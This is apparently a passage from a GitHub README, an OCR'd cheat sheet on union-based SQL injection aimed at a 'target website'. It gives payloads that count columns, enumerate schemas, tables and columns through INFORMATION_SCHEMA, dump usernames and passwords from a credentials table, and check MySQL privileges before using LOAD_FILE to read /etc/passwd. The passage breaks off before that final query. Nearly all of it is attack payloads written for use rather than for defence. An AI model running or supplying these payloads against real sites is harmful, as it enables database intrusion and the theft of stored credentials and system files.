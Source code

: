 #### Step2:
            use actual column number with union operation
            example: ‘ union select 1,2,3-- - 
#### Step3:
           check which column number show in your target website
#### Step4:
           use union base payload in perfect column number to exploit database

## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:
